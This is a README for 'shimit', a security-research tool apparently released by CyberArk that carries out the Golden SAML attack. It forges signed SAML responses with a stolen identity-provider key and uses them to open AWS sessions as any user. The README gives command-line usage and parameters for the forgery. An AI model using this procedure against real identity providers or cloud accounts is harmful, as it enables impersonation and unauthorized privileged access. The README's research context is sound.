 # shimit

`shimit` is a python tool that implements the Golden SAML attack. More informations on this can be found in the following [article](https://www.cyberark.com/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-cloud-apps/) on our blog.

```
python .\shimit.py -h
usage: shimit.py [-h] -pk KEY [-c CERT] [-sp SP] -idp IDP -u USER [-reg REGION]
                 [--SessionValidity SESSION_VALIDITY] [--SamlValidity SAML_VALIDITY] -n SESSION_NAME
                 -r ROLES -id ARN [-o OUT_FILE] [-l LOAD_FILE] [-t TIME]
                 
              ██╗   ███████╗██╗  ██╗██╗███╗   ███╗██╗████████╗     ██╗ ██╗  
             ██╔╝   ██╔════╝██║  ██║██║████╗ ████║██║╚══██╔══╝    ██╔╝ ╚██╗ 
            ██╔╝    ███████╗███████║██║██╔████╔██║██║   ██║      ██╔╝   ╚██╗
            ╚██╗    ╚════██║██╔══██║██║██║╚██╔╝██║██║   ██║     ██╔╝    ██╔╝
             ╚██╗   ███████║██║  ██║██║██║ ╚═╝ ██║██║   ██║    ██╔╝    ██╔╝ 
              ╚═╝   ╚══════╝╚═╝  ╚═╝╚═╝╚═╝     ╚═╝╚═╝   ╚═╝    ╚═╝     ╚═╝  
```
## Overview
In a golden SAML attack, attackers can gain access to an application (any application that supports SAML authentication) with any privileges they desire and be any user on the targeted application.

*shimit* allows the user to create a signed _SAMLResponse_ object, and use it to open a session in the Service Provider. *shimit* now supports AWS Console as a _Service Provider_, more are in the works...
### AWS 
After generating and signing the _SAMLResponse_'s _assertion_, shimit will call the _AssumeRoleWithSAML()_ API in AWS. Then, the session token and key will be applied to a new session, where the user can use aws cli to perform action using the permissions obtained using the *golden SAML*. 

## Requirements:
For installing the required modules, run the following command:

```
pip install -r requirements.txt
```
### AWS cli ###
Needs to be installed in order to use the credentials obtained.
Can be downloaded for [Windows](http://docs.aws.amazon.com/cli/latest/userguide/awscli-install-windows.html) or
[Linux](http://docs.aws.amazon.com/cli/latest/userguide/awscli-install-linux.html)
from these links.


## Usage:


### Apply session for AWS cli
```
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file
-u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
```
**idp** - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust

**pk**  - Private key file full path (pem format)

**c**   - Certificate file full path (pem format)

**u**   - User and domain name e.g. domain\username (use \\ or quotes in *nix)

**n**   - Session name in AWS

**r**   - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.

**id**  - AWS account id e.g. 123456789012



### Save SAMLResponse to file
```
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file
-u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```
**o**  - Output encoded SAMLResponse to a specified file path
### Load SAMLResponse from file
```
python .\shimit.py -l saml_response.xml
```
**l**  - Load SAMLResponse from a specified file path

## Contributions

`shimit` supports AWS as a service provider at the moment, as a POC. We highly encourage you to conribute with a new modules for other service providers. 
